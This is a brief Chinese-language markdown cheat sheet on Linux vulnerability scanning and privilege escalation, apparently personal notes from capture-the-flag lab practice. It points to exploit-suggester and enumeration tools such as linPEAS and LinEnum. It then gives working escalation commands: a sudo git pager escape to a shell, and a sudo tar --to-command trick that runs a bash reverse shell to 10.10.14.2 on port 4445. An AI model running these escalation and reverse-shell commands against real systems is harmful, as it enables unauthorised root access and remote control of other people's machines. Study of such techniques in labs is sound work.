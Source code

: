# Linux漏洞扫描与提权

## 漏洞扫描

- msf

```
use post/multi/recon/local_exploit_suggester
```

- **[windows-exploit-suggester.py](https://github.com/mxrmiss/Automation-script/blob/cb1807ed3582b9d965f77d048f5a8952a69ddd5d/Windows-Exploit-Suggester/Windows-Exploit-Suggester-master/windows-exploit-suggester.py)**
    - 需要安装pip2



- pspy

```
需要先给pspy脚本执行权力才能执行
```

- linPEAS

```
git clone https://github.com/mxrmiss/PEASS-ng.git
```



- LinEnum

```
git clone https://github.com/mxrmiss/LinEnum.git
```





## 提权

-  git

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

-  tar

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





